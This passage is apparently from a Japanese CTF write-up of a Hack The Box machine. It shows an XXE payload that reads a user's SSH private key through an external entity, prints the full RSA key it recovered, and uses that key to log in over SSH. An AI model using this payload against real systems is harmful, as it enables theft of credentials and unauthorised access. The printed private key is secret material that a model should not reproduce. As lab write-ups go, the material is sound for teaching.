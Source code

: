 ![スクリーンショット 2020-06-27 14.15.25.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/6fd95ab3-9033-9cce-a27d-47ecd7c09ce4.png)

成功ですね〜

秘密鍵を取れるか試します

```
<?xml version="1.0"?>
<!DOCTYPE lfi [
  <!ELEMENT lfi ANY>
  <!ENTITY boo SYSTEM
  "file:///home/roosa/.ssh/id_rsa">
]>
<item>
        <Author>sanposhiho</Author>
        <Subject>testes</Subject>
        <Content>&boo;</Content>
</item>
```

![スクリーンショット 2020-06-27 14.24.55.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a4c54c71-cbe5-cc58-55d7-a4b813e901b4.png)

取れました
これを適当なファイルに保存して ssh します

```
kali@kali:~/results/10.10.10.91/exploit$ cat key 
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----

kali@kali:~/results/10.10.10.91/exploit$ chmod 600 key
kali@kali:~/results/10.10.10.91/exploit$ ssh -i key roosa@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

```